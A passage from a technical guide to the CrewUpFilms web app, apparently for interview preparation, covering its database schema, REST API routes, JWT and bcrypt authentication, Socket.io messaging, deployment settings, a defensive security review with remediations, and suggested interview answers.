    joined_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL,
    CONSTRAINT uq_project_member_role UNIQUE (project_id, user_id, role)
);

-- 6. Applications Table
CREATE TABLE applications (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    project_id UUID NOT NULL REFERENCES projects(id) ON DELETE CASCADE,
    applicant_id UUID NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    role_applying_for VARCHAR(100) NOT NULL,
    message VARCHAR(1000) NOT NULL,
    status application_status_enum DEFAULT 'pending' NOT NULL,
    reviewed_at TIMESTAMP WITH TIME ZONE,
    review_note TEXT DEFAULT '',
    created_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL,
    updated_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL,
    CONSTRAINT uq_application_project_user_role UNIQUE (project_id, applicant_id, role_applying_for)
);

-- 7. Conversations Table
CREATE TABLE conversations (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    last_message TEXT DEFAULT '',
    last_message_at TIMESTAMP WITH TIME ZONE,
    status VARCHAR(20) DEFAULT 'active' NOT NULL,
    created_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL,
    updated_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL
);

-- Conversation Members (Junction Table)
CREATE TABLE conversation_members (
    conversation_id UUID NOT NULL REFERENCES conversations(id) ON DELETE CASCADE,
    user_id UUID NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    PRIMARY KEY (conversation_id, user_id)
);

-- 8. Messages Table
CREATE TABLE messages (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    sender_id UUID NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    conversation_id UUID REFERENCES conversations(id) ON DELETE CASCADE,
    project_id UUID REFERENCES projects(id) ON DELETE CASCADE,
    text VARCHAR(2000) NOT NULL,
    is_flagged BOOLEAN DEFAULT FALSE NOT NULL,
    contains_contact_info BOOLEAN DEFAULT FALSE NOT NULL,
    created_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL
);

CREATE INDEX idx_messages_conv_created ON messages(conversation_id, created_at ASC);
CREATE INDEX idx_messages_proj_created ON messages(project_id, created_at ASC);

-- 9. Notifications Table
CREATE TABLE notifications (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    recipient_id UUID NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    sender_id UUID REFERENCES users(id) ON DELETE SET NULL,
    type VARCHAR(50) NOT NULL,
    title VARCHAR(200) NOT NULL,
    message TEXT NOT NULL,
    link TEXT DEFAULT '',
    data JSONB DEFAULT '{}',
    read BOOLEAN DEFAULT FALSE NOT NULL,
    created_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL
);

CREATE INDEX idx_notifications_recipient_created ON notifications(recipient_id, created_at DESC);
CREATE INDEX idx_notifications_recipient_read ON notifications(recipient_id, read);

-- 10. Follows Table
CREATE TABLE follows (
    id UUID PRIMARY KEY DEFAULT gen_random_uuid(),
    follower_id UUID NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    following_id UUID NOT NULL REFERENCES users(id) ON DELETE CASCADE,
    created_at TIMESTAMP WITH TIME ZONE DEFAULT CURRENT_TIMESTAMP NOT NULL,
    CONSTRAINT uq_follower_following UNIQUE (follower_id, following_id)
);

CREATE INDEX idx_follows_following ON follows(following_id);
```

---

## A7. Complete REST API Reference [Backend]

The table below documents every REST API route in the application:

| HTTP Method | URL Endpoint | Auth Required | Request Body / Params | Expected Response Shape | HTTP Status Codes | Validation Rules | Code Location |
|---|---|---|---|---|---|---|---|
| `POST` | `/api/auth/register` | No | `{ name, username, email, password, role?, roles?, dateOfBirth?, gender? }` | `{ success: true, token, user, requiresEmailVerification }` | `201`, `400`, `409` | `username` 3–30 alphanumeric/_, valid `email`, `password` ≥ 8 chars | `authRoutes.js` / `authController.js` |
| `POST` | `/api/auth/login` | No | `{ email, password }` | `{ success: true, token, user }` | `200`, `400`, `401` | Valid `email`, non-empty `password` | `authRoutes.js` / `authController.js` |
| `POST` | `/api/auth/google` | No | `{ idToken, username?, role?, ... }` | `{ success: true, token, user }` or `{ needsUsername: true }` | `200`, `400`, `401`, `409` | Valid Google `idToken` | `authRoutes.js` / `authController.js` |
| `GET` | `/api/auth/me` | `protect` | None | `{ success: true, user }` | `200`, `401` | Bearer JWT header | `authRoutes.js` / `authController.js` |
| `PUT` | `/api/auth/update-me` | `protect` | `{ name?, dateOfBirth?, gender? }` | `{ success: true, message: "Profile updated", user }` | `200`, `400`, `401` | At least one valid field | `authRoutes.js` / `authController.js` |
| `POST` | `/api/auth/send-email-otp` | `protect` | None | `{ success: true, message: "Verification code sent" }` | `200`, `400`, `429` | 60s cooldown limit | `authRoutes.js` / `authController.js` |
| `POST` | `/api/auth/verify-email` | `protect` | `{ code }` | `{ success: true, message: "Email verified", token, user }` | `200`, `400`, `401` | Non-empty `code` | `authRoutes.js` / `authController.js` |
| `POST` | `/api/auth/send-phone-otp` | `protect` | `{ phone }` | `{ success: true, message: "Verification code sent" }` | `200`, `400`, `429` | Phone string length ≥ 7 | `authRoutes.js` / `authController.js` |
| `POST` | `/api/auth/verify-phone` | `protect` | `{ code }` | `{ success: true, message: "Phone verified", token, user }` | `200`, `400`, `401` | Non-empty `code` | `authRoutes.js` / `authController.js` |
| `POST` | `/api/auth/forgot-password`| No | `{ email }` | `{ success: true, message: "If an account..." }` | `200`, `400`, `429` | Valid email format | `authRoutes.js` / `authController.js` |
| `POST` | `/api/auth/reset-password` | No | `{ token, password }` | `{ success: true, message: "Password reset", token, user }`| `200`, `400` | Token required, `password` ≥ 8 chars | `authRoutes.js` / `authController.js` |
| `GET` | `/api/projects` | Public | Query: `{ projectType, role, location, isPaid, isRemote, q, page, limit }` | `{ success: true, count, projects: [Project] }` | `200`, `500` | Excludes `isDraft: true` | `projectRoutes.js` / `projectController.js` |
| `GET` | `/api/projects/recommended` | `protect` | None | `{ success: true, data: [ScoredProjects] }` | `200`, `401` | Excludes user's own projects and active applications | `projectRoutes.js` / `projectController.js` |
| `GET` | `/api/projects/my` | `protect` | None | `{ success: true, data: [Project] }` | `200`, `401` | Filters `createdBy: req.user._id` | `projectRoutes.js` / `projectController.js` |
| `GET` | `/api/projects/bookmarks` | `protect` | None | `{ success: true, data: [Project] }` | `200`, `401` | Retrieves populated `bookmarks` | `projectRoutes.js` / `projectController.js` |
| `GET` | `/api/projects/:id` | Public | URL Param: `id` | `{ success: true, data: Project }` | `200`, `404` | Valid MongoDB ObjectId | `projectRoutes.js` / `projectController.js` |
| `POST` | `/api/projects` | `protect` | `{ title, description, projectType, requiredRoles, isPaid, budget, compensationDetails, ... }` | `{ success: true, message: "...", data: Project }` | `201`, `400`, `403` | KYC gate check: email, phone, and DOB verified | `projectRoutes.js` / `projectController.js` |
| `PUT` | `/api/projects/:id` | `protect` | `{ ...projectUpdates }` | `{ success: true, data: UpdatedProject }` | `200`, `403`, `404` | Creator authorization check | `projectRoutes.js` / `projectController.js` |
| `DELETE`| `/api/projects/:id` | `protect` | URL Param: `id` | `{ success: true, message: "Project removed" }` | `200`, `403`, `404` | Creator authorization check | `projectRoutes.js` / `projectController.js` |
| `PATCH`| `/api/projects/:id/publish`| `protect`| URL Param: `id` | `{ success: true, message: "Project published", data: Project }`| `200`, `403`, `404` | Sets `isDraft = false` | `projectRoutes.js` / `projectController.js` |
| `PATCH`| `/api/projects/:id/youtube-link` | `protect` | `{ youtubeLink }` or `{ episodeLinks }` | `{ success: true, data: Project }` | `200`, `403`, `404` | Valid YouTube URL format | `projectRoutes.js` / `projectController.js` |
| `POST` | `/api/apply` | `protect` | `{ projectId, roleApplyingFor, message }` | `{ success: true, message: "Application submitted", data: Application }` | `201`, `400`, `404`, `409` | Unique index constraint check | `applicationRoutes.js` / `applicationController.js` |
| `GET` | `/api/applications/:projectId` | `protect` | URL Param: `projectId` | `{ success: true, data: [Application] }` | `200`, `403`, `404` | Project owner authorization | `applicationRoutes.js` / `applicationController.js` |
| `GET` | `/api/applications/my` | `protect` | None | `{ success: true, data: [Application] }` | `200`, `401` | Returns caller's applications | `applicationRoutes.js` / `applicationController.js` |
| `PUT` | `/api/application/status` | `protect` | `{ applicationId, status, reviewNote? }` | `{ success: true, message: "Application accepted", data: Application }` | `200`, `400`, `403`, `404` | `status` must be `'accepted'` or `'rejected'` | `applicationRoutes.js` / `applicationController.js` |
| `DELETE`| `/api/application/:id` | `protect` | URL Param: `id` | `{ success: true, message: "Application withdrawn" }` | `200`, `400`, `403`, `404` | Can only withdraw `'pending'` applications | `applicationRoutes.js` / `applicationController.js` |
| `GET` | `/api/conversations` | `protect` | None | `{ success: true, data: [Conversation] }` | `200`, `401` | Returns threads where user is in `members` | `conversationRoutes.js` |
| `GET` | `/api/messages/:convId` | `protect` | URL Param: `convId` | `{ success: true, data: [Message] }` | `200`, `401`, `403` | Verifies user is member of conversation | `conversationRoutes.js` |
| `POST` | `/api/messages` | `protect` | `{ conversationId, text }` | `{ success: true, data: Message }` | `201`, `400`, `403` | Text ≤ 2000 characters | `conversationRoutes.js` |
| `GET` | `/api/notifications` | `protect` | None | `{ success: true, data: [Notification] }` | `200`, `401` | Returns caller's notifications | `notificationRoutes.js` |
| `PATCH`| `/api/notifications/:id/read` | `protect` | URL Param: `id` | `{ success: true, message: "Marked as read" }` | `200`, `404` | Verifies recipient ownership | `notificationRoutes.js` |
| `GET` | `/api/profile/:id` | Public | URL Param: `id` (User ID or Username) | `{ success: true, data: Profile }` | `200`, `404` | Populates associated User record | `profileRoutes.js` |
| `PUT` | `/api/profile/update` | `protect` | `{ bio?, skills?, location?, availability?, ... }` | `{ success: true, data: Profile }` | `200`, `400`, `401` | Max 20 skills, bio ≤ 500 chars | `profileRoutes.js` |
| `POST` | `/api/follow/:userId` | `protect` | URL Param: `userId` | `{ success: true, message: "Followed successfully" }` | `200`, `400`, `409` | Cannot follow self | `followRoutes.js` |
| `DELETE`| `/api/follow/:userId` | `protect` | URL Param: `userId` | `{ success: true, message: "Unfollowed" }` | `200`, `400` | Unfollows user | `followRoutes.js` |
| `GET` | `/api/mentors` | Public | Query: `{ field, locationType, page }` | `{ success: true, mentors: [Profile] }` | `200` | Filters `isMentor: true` | `mentorRoutes.js` |
| `POST` | `/api/contests` | `protect` + `adminOnly` | `{ title, description, rules, prizeAmount, submissionDeadline }` | `{ success: true, data: Contest }` | `201`, `403` | Admin role required | `contestRoutes.js` |
| `GET` | `/api/admin/risk-monitor` | `protect` + `adminOnly` | Query: `{ riskLevel, page }` | `{ success: true, projects: [Project] }` | `200`, `403` | Returns projects with `riskScore > 0` | `adminRoutes.js` |
| `PATCH`| `/api/admin/users/:id/suspend` | `protect` + `adminOnly` | `{ suspend: boolean }` | `{ success: true, message: "User suspended" }` | `200`, `403`, `404` | Toggles `isSuspended` | `adminRoutes.js` |
| `GET` | `/api/health` | Public | None | `{ success: true, message: "CREWUP API is running 🎬", socketConnections: number }` | `200` | Unprotected health check | `server.js` |

---

## A8. Authentication & Authorization Security Deep Dive [Both]

### JSON Web Tokens (JWT) Explained from Zero
A JSON Web Token (JWT) is an open industry standard (RFC 7519) for securely transmitting claims between two parties as a compact, URL-safe string. Unlike traditional stateful session cookies (which require the server to store a session ID in memory or Redis and look it up on every HTTP request), **JWTs are completely stateless**. All user claims are encoded directly within the token string itself.

A JWT consists of three base64url-encoded parts separated by periods (`.`):
```
header.payload.signature
```
1. **Header**: Contains metadata describing the token format and cryptographic hashing algorithm:
   ```json
   { "alg": "HS256", "typ": "JWT" }
   ```
2. **Payload (Claims)**: Contains statement claims about an entity. In CrewUpFilms, [server/src/utils/generateToken.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/utils/generateToken.js) embeds only the user ID:
   ```json
   { "id": "65f1a8e2b4c8d9e0f1a2b3c4", "iat": 1718000000, "exp": 1718604800 }
   ```
3. **Signature**: Created by taking the base64-encoded header, the base64-encoded payload, and signing them using HMAC-SHA256 with the server's private secret (`JWT_SECRET`):
   ```
   HMACSHA256(base64UrlEncode(header) + "." + base64UrlEncode(payload), JWT_SECRET)
   ```
- **How Verification Works**: When the client sends `Authorization: Bearer <token>`, `jwt.verify` takes the header and payload from the incoming token, recalculates the cryptographic signature using the server's `JWT_SECRET`, and compares it against the token's attached signature. If an attacker tampers with the payload (e.g. changes `id` to an admin's ID), the calculated signature will not match, and `jwt.verify` throws a `JsonWebTokenError`.

---

### `bcryptjs` Password Hashing Explained from Zero
Passwords must never be stored in plain text or using reversible symmetric encryption. If a database is breached, encrypted passwords can be decrypted if the key is compromised, and standard cryptographic hashes (like MD5 or SHA-256) can be cracked in seconds using pre-computed lookup tables (rainbow tables) or GPU clusters.

**bcrypt** is an adaptive, slow hashing algorithm based on the Blowfish cipher:
- **Salt Generation (`genSalt(12)`)**: A salt is a cryptographically random 16-byte string generated uniquely for every user before hashing. Salting ensures that if two users select the exact same password (`Password123!`), their resulting hash strings are completely different, defeating pre-computed rainbow tables.
- **Cost Factor (Salt Rounds = 12)**: In `User.js`, the pre-save hook executes `bcrypt.genSalt(12)`. The cost factor represents $2^{12} = 4,096$ hashing iterations. This makes brute-force guessing computationally expensive (taking ~250ms per check on modern CPUs) while remaining imperceptible to an individual user logging in.
- **One-Way Trapdoor**: bcrypt is strictly one-way. It is mathematically impossible to reverse a bcrypt hash back into the plain text password.
- **Verification (`bcrypt.compare`)**: When a user logs in, bcrypt extracts the salt embedded directly within the stored hash string, hashes the incoming candidate password with that same salt using 4,096 rounds, and compares the resulting strings in constant time (protecting against timing attacks).

---

### Complete Authentication Flow Diagrams

#### Google OAuth 2.0 Integration
```
[Browser Client]                    [CrewUpFilms Server]                 [Google OAuth Endpoint]
       │                                     │                                      │
       │ 1. User signs in via Google popup   │                                      │
       │ 2. Receives idToken from Google     │                                      │
       │                                     │                                      │
       │ 3. POST /api/auth/google            │                                      │
       │    { idToken }                      │                                      │
       │────────────────────────────────────>│                                      │
       │                                     │ 4. HTTPS GET tokeninfo?id_token=...  │
       │                                     │─────────────────────────────────────>│
       │                                     │                                      │
       │                                     │ 5. Returns { sub, email, name, pic } │
       │                                     │<─────────────────────────────────────│
       │                                     │                                      │
       │                                     │ 6. User.findOne({ googleId / email })│
       │                                     │ 7. Link account OR provision user    │
       │                                     │ 8. generateToken(user._id)           │
       │ 9. HTTP 200 { token, user }         │                                      │
       │<────────────────────────────────────│                                      │
```

#### Self-Service Cryptographic Password Reset
```
[User Browser]                      [CrewUpFilms Server]                 [Email Provider / Inbox]
       │                                     │                                      │
       │ 1. POST /api/auth/forgot-password   │                                      │
       │    { email }                        │                                      │
       │────────────────────────────────────>│                                      │
       │                                     │ 2. crypto.randomBytes(32) (rawToken) │
       │                                     │ 3. sha256(rawToken) -> hashedToken   │
       │                                     │ 4. Save hashedToken & 1h expiration  │
       │                                     │ 5. Fire reset email with rawToken    │
       │                                     │─────────────────────────────────────>│
       │ 6. HTTP 200 (Generic anti-enum msg) │                                      │
       │<────────────────────────────────────│                                      │
       │                                                                            │
       │ 7. User clicks link: /reset-password?token=<rawToken>                      │
       │<───────────────────────────────────────────────────────────────────────────│
       │                                     │
       │ 8. POST /api/auth/reset-password    │
       │    { token: rawToken, password }    │
       │────────────────────────────────────>│
       │                                     │ 9. sha256(rawToken) -> hash
       │                                     │ 10. Find user where hash matches
       │                                     │     and resetPasswordExpires > now
       │                                     │ 11. Hash new password via bcrypt
       │                                     │ 12. Wipe reset token fields
       │ 13. HTTP 200 { token, user }        │
       │<────────────────────────────────────│
```

---

## A9. Real-Time Layer with Socket.io [Both]

### WebSockets from Zero & The Socket.io Abstraction
HTTP is a unidirectional request-response protocol. A client opens a TCP socket, sends an HTTP request, receives an HTTP response, and the connection closes or returns to idle. Because the server cannot initiate communication to a client over HTTP, traditional apps used inefficient "polling" (requesting `/api/notifications` every 5 seconds).

**WebSockets (RFC 6455)** solve this by providing a persistent, bidirectional, full-duplex TCP channel over a single connection. After an initial HTTP handshake (`Upgrade: websocket`), both the browser and server can send lightweight message frames to each other instantly without HTTP header overhead.

**Why Socket.io instead of Raw WebSockets?**
1. **Transport Fallback**: If a corporate proxy or firewall blocks WebSocket connections, Socket.io automatically falls back to HTTP long-polling (`transports: ['websocket', 'polling']`).
2. **Heartbeats & Auto-Reconnection**: Automatically manages pings and reconnects if WiFi drops.
3. **Rooms & Broadcasting**: Allows grouping sockets into virtual channels (`socket.join('room')`) and emitting messages to subsets of users (`io.to('room').emit(...)`) without managing individual socket arrays.

### Server Implementation (`server/src/socket/socketHandler.js`)
- **Authentication**: Uses `io.use(...)` to intercept socket connections before they complete. Sockets must pass a valid JWT in `socket.handshake.auth.token`.
- **Targeted Personal Rooms (`user:<id>`)**: Each connected socket automatically joins a room named after their MongoDB User ID:
  ```javascript
  socket.join(`user:${userId}`);
  ```
  This is how notifications and private messages reach users: `io.to("user:" + recipientId).emit('newMessage', message)`.
- **Project Team Chat Rooms (`project:<projectChatId>`)**: Crew members join a shared project room via `joinProjectRoom`. When any crew member emits `sendProjectMessage`, the server verifies their team membership and broadcasts `newProjectMessage` to all sockets in that project room.



---

## A10. Frontend-Backend Integration Patterns [Both]

### Client-Side HTTP Data Fetching
- The Next.js frontend uses Axios within React component hooks (`useEffect` or custom wrappers).
- Base API URL is determined dynamically via `process.env.NEXT_PUBLIC_API_URL` (falling back to `http://localhost:5001/api` in development).
- Requests automatically carry credentials (`withCredentials: true`) and Bearer tokens via the Axios request interceptor.

### File Handling Architecture (Zero Binary Uploads)
- **Codebase Fact**: The repository contains **no local file upload directories, no `multer` middleware, and no AWS S3 SDK calls**.
- **How Media is Handled**:
  - Film portfolios, demo reels, and web-series episodes are stored as **external URL strings** pointing to YouTube, Vimeo, IMDb, Google Drive, or Dropbox.
  - Team assets store links: `{ name, url, type: 'google-drive'|'dropbox'|'notion'|'figma' }`.
  - Profile avatars and certificates are submitted as **base64 data-URL strings** parsed through `express.json({ limit: '10mb' })` and stored directly in MongoDB document fields.

---

## A11. Environment Configuration & Deployment Architecture [Both]

### Comprehensive Environment Variable Audit

| Variable Name | Environment Tier | Purpose | Default / Example Value |
|---|---|---|---|
| `PORT` | Backend | Port number for Express HTTP & WebSocket server | `5001` |
| `NODE_ENV` | Backend | Runtime environment flag (`development` vs `production`) | `development` |
| `MONGO_URI` | Backend | MongoDB connection string (Atlas or local) | `mongodb://localhost:27017/crewup` |
| `JWT_SECRET` | Backend | Cryptographic secret for signing session tokens | `your_super_secret_jwt_key...` |
| `JWT_EXPIRES_IN` | Backend | Token validity duration | `7d` |
| `CLIENT_URL` | Backend | Allowed CORS origins (comma-separated list) | `http://localhost:3000` |
| `GMAIL_USER` | Backend | Gmail address for Priority 1 SMTP dispatch | `notifications@crewupfilms.com` |
| `GMAIL_PASS` | Backend | Google App Password (16 characters, no spaces) | `xxxx yyyy zzzz wwww` |
| `BREVO_API_KEY` | Backend | Priority 2 transactional email API key | `xkeysib-...` |
| `RESEND_API_KEY` | Backend | Priority 3 transactional email API key | `re_...` |
| `RESEND_FROM` | Backend | Sender header for Resend | `CREWUPFILMS <onboarding@resend.dev>` |
| `SENDER_NAME` | Backend | Display name on outgoing transactional emails | `CREWUPFILMS` |
| `SENDER_EMAIL` | Backend | Outgoing sender address | `noreply@crewupfilms.com` |
| `ADMIN_ALERT_EMAIL`| Backend | Target address for server crash/exception alerts | `admin@crewupfilms.com` |
| `TWILIO_SID` | Backend | Twilio Account SID for SMS OTP delivery | `AC...` |
| `TWILIO_AUTH_TOKEN`| Backend | Twilio Auth Token | `...` |
| `TWILIO_PHONE` | Backend | Twilio virtual phone number | `+1234567890` |
| `NEXT_PUBLIC_API_URL` | Frontend | Target Express REST API base URL | `http://localhost:5001/api` |
| `NEXT_PUBLIC_LAUNCH_MODE` | Frontend | Launch gate toggle (`private` vs `public`) | `private` |
| `NEXT_PUBLIC_ACCESS_KEY` | Frontend | Secret invite key for beta access (`?ref=...`) | `crewup2026` |

### Cloud Deployment Infrastructure
- **Server Platform (Railway)**: Configured via [railway.toml](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/railway.toml). Built using Railway's Nixpacks builder (detects Node.js, runs `npm install`, and starts the process via `node src/server.js`). Monitors server health via `GET /api/health` with a 30-second timeout and automatic restarts on failure.
- **Client Platform (Vercel)**: Next.js 14 App Router frontend deployed onto Vercel's global CDN and Edge network.

---

## A12. Error Handling, Validation, Logging & Testing Audit [Both]

### Existing Implementation
- **Database Error Normalization**: [server/src/middleware/errorHandler.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/middleware/errorHandler.js) handles Mongoose duplicate key errors (code 11000), schema `ValidationError` exceptions, and invalid ObjectIDs (`CastError`), returning standard JSON responses.
- **Declarative Request Validation**: [server/src/routes/authRoutes.js](file:///c:/Users/hasin/Downloads/CREWUP/CREWUP/server/src/routes/authRoutes.js) uses `express-validator` to enforce string lengths, regex patterns, and email formats on user registration and login endpoints.
- **HTTP Access Logging**: `morgan` logs all incoming HTTP traffic to stdout.
- **Process Crash Protection**: Event listeners on `unhandledRejection` and `uncaughtException` in `server.js` capture unhandled runtime errors, dispatch email alerts in production, and terminate the process cleanly.

### Identified Gaps
- **Missing Automated Test Suites**: **Zero test files found in repository** (no unit tests, integration tests, or end-to-end tests with Jest, Supertest, or Cypress).
- **Incomplete Validation Coverage**: While `authRoutes.js` uses `express-validator`, other critical routes (such as project creation, role applications, and mentor reviews) rely primarily on manual controller checks rather than reusable declarative middleware.
- **Unstructured Logging**: The application relies on `console.log` and `console.error` rather than structured JSON loggers like Winston or Pino, which limits log queryability in centralized monitoring tools (Datadog, CloudWatch).
- **No API Documentation**: The repository does not include Swagger / OpenAPI specifications.

---

## A13. Production Security Review & Vulnerability Remediation [Both]

| Vulnerability / Architecture Issue | Severity | Technical Description & Risk | Exact Remediation Steps |
|---|---|---|---|
| **1. JWT Stored in Browser LocalStorage** | **HIGH** | `client/src/lib/auth.js` stores the session token in `window.localStorage`. If the app suffers from a Cross-Site Scripting (XSS) vulnerability, an attacker can extract tokens directly via client-side JavaScript. | Store authentication tokens in an `httpOnly`, `Secure`, `SameSite=Lax` cookie set by Express on login, preventing JavaScript from reading the token. |
| **2. Rate Limiters Bypassed in Development** | **LOW** | `server/src/server.js` skips rate limits when `NODE_ENV === 'development'`. If production environments inadvertently misconfigure this variable, rate limiting is disabled entirely. | Change the check to explicitly activate rate limiting by default unless a specific bypass flag (`DISABLE_RATE_LIMIT=true`) is provided. |
| **3. Long-Lived JWTs (7 Days) with No Refresh Token Rotation** | **MEDIUM** | Tokens remain valid for 7 full days (`JWT_EXPIRES_IN=7d`). If a token is compromised, an attacker retains access for a week with no server-side revocation mechanism. | Implement short-lived Access Tokens (15 minutes) paired with rotating Refresh Tokens stored securely in the database and delivered via `httpOnly` cookies. |
| **4. Google OAuth Audience (`aud`) Validation Gap** | **MEDIUM** | `verifyGoogleToken` queries Google's `/tokeninfo` endpoint but does not verify whether the token's `aud` (audience) matches the application's specific `GOOGLE_CLIENT_ID`. | Verify `googleData.aud === process.env.GOOGLE_CLIENT_ID` before provisioning accounts to prevent cross-client token reuse. |
| **5. Missing Declarative Validation on Key Routes** | **MEDIUM** | `projectRoutes.js` and `applicationRoutes.js` lack `express-validator` middleware chains, relying instead on manual controller validations. | Add comprehensive `express-validator` middleware pipelines to all POST and PUT endpoints to enforce payload schemas prior to controller execution. |
| **6. Default Helmet Configuration Without Custom CSP** | **LOW** | `server.js` invokes `helmet()` with default settings, omitting a custom Content Security Policy (CSP). | Define an explicit CSP policy with `helmet.contentSecurityPolicy` white-listing allowed script, style, and media origins. |
| **7. Plaintext OTP Codes in Database** | **MEDIUM** | `User.js` stores 6-digit numeric codes in `emailOTP.code` and `phoneOTP.code` in plain text. Although marked `select: false`, a database compromise exposes valid codes. | Hash OTP codes using SHA-256 before saving them to the database (`crypto.createHash('sha256').update(code).digest('hex')`) and hash incoming user input during verification. |
| **8. Zero Automated Test Coverage** | **MEDIUM** | Absence of unit, integration, or regression tests creates risk of breaking core authentication or casting logic during deployments. | Add a basic test suite using Jest and Supertest covering core authentication, project creation, and casting application endpoints. |

---

## A14. Job Description Gap Analysis & Interview Positioning [Both]

This matrix prepares you to answer interview questions addressing technologies commonly listed in Full Stack Job Descriptions that are not present in this repository:

| Job Description Technology | Repository Status | Evidence from Codebase | How to Frame Your Experience in Interviews |
|---|---|---|---|
| **PostgreSQL / Relational DBs** | **Not Present** | Repo uses MongoDB exclusively via Mongoose 8. | *"CrewUpFilms utilized MongoDB because media casting calls feature polymorphic documents with variable role definitions, dynamic schedules, and embedded nested portfolios. However, I have designed the complete normalized PostgreSQL relational schema for this project (including junction tables for casting members, unique compound constraints, and custom ENUM types) and can readily deploy it using PostgreSQL."* |
| **SQL ORMs (Prisma / TypeORM / Sequelize)** | **Not Present** | Uses Mongoose ODM exclusively. | *"I chose Mongoose in this project to take advantage of schema lifecycle hooks, such as automatically broadcasting notifications to WebSockets via `post('save')`. The mental model of mapping schemas, defining compound unique indexes, and writing query pipelines translates directly to tools like Prisma or TypeORM."* |
| **AWS Cloud (S3, EC2, ECS)** | **Not Present** | Deployed on Railway (PaaS) and Vercel. Media stored as URLs. | *"To prioritize rapid iteration and minimize operational costs during early beta testing, we deployed on Railway and Vercel and linked media reels directly from YouTube and Vimeo. In an AWS architecture, I would migrate media storage to private S3 buckets with CloudFront CDN distribution and serve time-limited presigned upload URLs directly to client browsers."* |
| **Docker & Containerization** | **Not Present** | No `Dockerfile` found; Railway utilizes Nixpacks. | *"Railway automatically containers and builds the Node environment using Nixpacks based on our `railway.toml` file. For a production Kubernetes or AWS ECS deployment, I can easily write a multi-stage `Dockerfile` utilizing a lightweight Alpine base image and non-root execution users."* |
| **Redis & In-Memory Caching** | **Not Present** | In-memory socket rooms and MongoDB queries used exclusively. | *"Currently, project recommendation scoring and socket rooms run directly across Mongoose batch queries and Node memory. As user concurrency scales, introducing a Redis cluster would be my immediate first step to handle Socket.io cross-node pub/sub adapters and cache recommended project feeds with a 10-minute TTL."* |
| **TypeScript** | **Partial** | Dev types present in `client/package.json`, but code is vanilla JavaScript. | *"The project was built in modern ES6+ JavaScript to maximize velocity during initial feature prototyping. I am fully comfortable with TypeScript, interfaces, and strict type checking, and can readily lead a phased migration using Next.js and server-side interfaces."* |
| **API Documentation (Swagger / OpenAPI)** | **Not Present** | No Swagger configuration files in repository. | *"The API endpoints are modularly grouped into 24 distinct Express router files. In my next sprint, I would install `swagger-jsdoc` and `swagger-ui-express` to auto-generate interactive OpenAPI specifications from JSDoc route annotations."* |
| **CI/CD Pipelines** | **Partial** | GitHub integration on Railway and Vercel; no `.github/workflows`. | *"Deployments are triggered automatically on Git branch pushes via Railway and Vercel webhooks. To enforce quality gates prior to merging, I would configure a GitHub Actions workflow running automated linting, test suites, and security scans on all Pull Requests."* |

---

## A15. Engineering Roadmap & Architectural Improvements [Both]

1. **Priority 1: Transition to HTTP-Only Cookie Authentication & Refresh Tokens**
   - **Why**: Eliminates the high-risk XSS vulnerability associated with storing JWTs in `localStorage`.
   - **Implementation**: Update `authController.js` to issue a short-lived (15m) access token and a long-lived (30d) refresh token stored in an `httpOnly`, `Secure`, `SameSite=Strict` cookie. Add an endpoint `POST /api/auth/refresh` that validates the cookie, verifies the refresh token against MongoDB, and issues a fresh access token.
2. **Priority 2: Integrate AWS S3 Direct Uploads via Presigned URLs**
   - **Why**: Eliminates 10MB JSON request payloads containing base64 images and enables high-resolution media uploads.
   - **Implementation**: Install `@aws-sdk/client-s3` and `@aws-sdk/s3-request-presigner`. Create an endpoint `POST /api/media/upload-url` that generates a presigned S3 PUT URL valid for 15 minutes, allowing browser clients to upload media files directly to S3 without routing heavy binary data through the Express application.
3. **Priority 3: Horizontal Real-Time Scaling with Redis Socket.io Adapter**
   - **Why**: The current `socketHandler.js` keeps socket rooms in single-process memory. Scaling the Express backend across multiple Railway containers will break messaging across instances.
   - **Implementation**: Deploy a Redis instance on Railway. Install `@socket.io/redis-adapter` and `ioredis`. Attach the Redis pub/sub adapter to Socket.io: `io.adapter(createAdapter(pubClient, subClient))`. This ensures messages emitted on one server instance are broadcast to sockets connected to any other instance.
4. **Priority 4: Establish End-to-End Test Suite with Jest & Supertest**
   - **Why**: Prevents regressions across core business logic (casting applications, fraud scoring, and KYC gates).
   - **Implementation**: Install `jest`, `supertest`, and `mongodb-memory-server`. Write automated integration tests validating registration, OTP verification, project creation gating, and application state transitions against an in-memory database instance.
5. **Priority 5: Declarative Request Validation Migration**
   - **Why**: Guarantees that malformed or malicious payloads are rejected before executing database operations.
   - **Implementation**: Create reusable validation middleware files using `express-validator` for `projectRoutes.js`, `applicationRoutes.js`, and `profileRoutes.js`.

---

# Part B: Basics Behind the Project

This section provides 20 foundational "Basics Boxes" designed to help you explain the core concepts underpinning CrewUpFilms in technical interviews. Every concept is broken down from first principles and anchored directly in the project's codebase.

---

### Basics Box 1: HTTP (Hypertext Transfer Protocol) [Both]

#### What It Is
HTTP is the foundational communication protocol of the World Wide Web. It is an application-layer request-response protocol running over TCP/IP that defines how clients (such as web browsers or mobile apps) format messages and request data from web servers.
- **Analogy**: Sending an official letter. The HTTP Method is the action written on the envelope ("Deliver", "Update", "Return"). The Headers are postal metadata (return address, language, postage stamp). The Body is the actual letter inside the envelope.

#### Why It Exists
